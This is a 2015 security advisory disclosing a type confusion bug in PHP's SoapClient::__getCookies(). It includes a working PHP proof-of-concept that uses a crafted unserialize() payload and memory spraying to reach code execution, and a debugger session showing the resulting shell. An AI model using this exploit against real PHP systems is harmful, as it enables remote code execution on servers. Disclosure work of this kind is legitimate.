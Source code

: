 # Type Confusion Vulnerability in SoapClient
 
Taoguang Chen <[@chtg](http://github.com/chtg)> - Write Date: 2015.3.1 - Release Date: 2015.3.20
 
> A type confusion vulnerability was discovered in SoapClient object's __getCookies() method that can be abused for leaking arbitrary memory blocks or execute arbitrary code remotely.

Affected Versions
------------
Affected is PHP 5.6 < 5.6.7  
Affected is PHP 5.5 < 5.5.23  
Affected is PHP 5.4 < 5.4.39  
Affected is PHP 5.3 <= 5.3.29

Credits
------------
This vulnerability was disclosed by Taoguang Chen.

Description
------------
```
PHP_METHOD(SoapClient, __getCookies)
{
	zval **cookies, *tmp;

	if (zend_parse_parameters_none() == FAILURE) {
		return;
	}

	array_init(return_value);

	if (zend_hash_find(Z_OBJPROP_P(this_ptr), "_cookies", sizeof("_cookies"), (void **)&cookies) != FAILURE) {
		zend_hash_copy(Z_ARRVAL_P(return_value), Z_ARRVAL_P(*cookies), (copy_ctor_func_t) zval_add_ref, (void *)&tmp, sizeof(zval*));
	}
}
```

The Z_ARRVAL_P macro leads to pointing a fake array-type ZVAL in memory via a fake HashTable and a fake Bucket. This should result in arbitrary code execution.
 
Proof of Concept Exploit
------------
The PoC works on standard MacOSX 10.10.3 installation of PHP 5.5.14.

```
<?php

ini_set("memory_limit", -1);

if ($_SERVER['argc'] < 2) {
	$_SERVER['argv'][1] = 'system(sh);exit;';
}

setup_memory();

$exploit = 'O:10:"SoapClient":1:{s:8:"_cookies";s:'.strlen($hashtable).':"'.$hashtable.'";}';
$z = unserialize($exploit);
// $z = new SoapClient(null, array('location' => "", 'uri' => ""));
// $z->_cookies = $hashtable;
$z->__getCookies();

function setup_memory()
{
	global $str, $hashtable;
	
	$base = 0x114000020;
	$bucket_addr = $base;
	$zval_delta = 0x100;
	$hashtable_delta = 0x200;
	$zval_addr = $base + $zval_delta;
	$hashtable_addr = $base + $hashtable_delta;
	$func_addr = 0x100351e3d; // zend_eval_string()'s address
	
	$bucket  = "\x01\x00\x00\x00\x00\x00\x00\x00";
	$bucket .= "\x00\x00\x00\x00\x00\x00\x00\x00";
	$bucket .= ptr2str($bucket_addr + 3*8);
	$bucket .= ptr2str($zval_addr);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	$bucket .= ptr2str(0);
	
	$hashtable  = "\x00\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00";
	$hashtable .= "\x01\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00";
	$hashtable .= "\x00\x00\x00\x00\x00\x00\x00\x00";
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str($bucket_addr);
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str(0);
	$hashtable .= ptr2str(0);
	$hashtable .= "\x00";
	$hashtable .= "\x00";
	
	$zval = ptr2str($hashtable_addr);
	$zval .= ptr2str(0);
	$zval .= "\x00\x00\x00\x00";
	$zval .= "\x04";
	$zval .= "\x00";
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
	$zval .= ptr2str(0);
  
	$shellcode = ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str($hashtable_addr + 6*8);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str(0);
	$shellcode .= ptr2str($func_addr);
	$shellcode .= ptr2str($hashtable_addr + 9*8);
	$shellcode .= "\x65\x76\x61\x6c\x28\x24\x5f\x53\x45\x52\x56\x45\x52\x5b\x27\x61\x72\x67\x76\x27\x5d\x5b\x31\x5d\x29\x3b\x00"; // eval($_SERVER['argv'][1]);
	
	$part = str_repeat("\x73", 4096);
	for ($j=0; $j<strlen($bucket); $j++) {
		$part[$j] = $bucket[$j];
	}
	for ($j=0; $j<strlen($shellcode); $j++) {
		$part[$j+$hashtable_delta] = $shellcode[$j];
	}
	for ($j=0; $j<strlen($zval); $j++) {
		$part[$j+$zval_delta] = $zval[$j];
	}
	
	$str = str_repeat($part, 1024*1024*256/4096);
}

function ptr2str($ptr)
{
	$out = "";
	for ($i=0; $i<8; $i++) {
		$out .= chr($ptr & 0xff);
		$ptr >>= 8;
	}
	return $out;
}

?>
```

Test the PoC on the command line, then any PHP code can be executed:

```
$ lldb php
(lldb) target create "php"
Current executable set to 'php' (x86_64).
(lldb) run tcpoc.php 'system\(sh\)\;exit\;'
Process 2606 launched: '/usr/bin/php' (x86_64)
sh: no job control in this shell
sh-3.2$ php -v
PHP 5.5.14 (cli) (built: Jan  8 2015 22:33:37) 
Copyright (c) 1997-2014 The PHP Group
Zend Engine v2.5.0, Copyright (c) 1998-2014 Zend Technologies
sh-3.2$ exit
exit
Process 2606 exited with status = 0 (0x00000000) 
(lldb) 
```
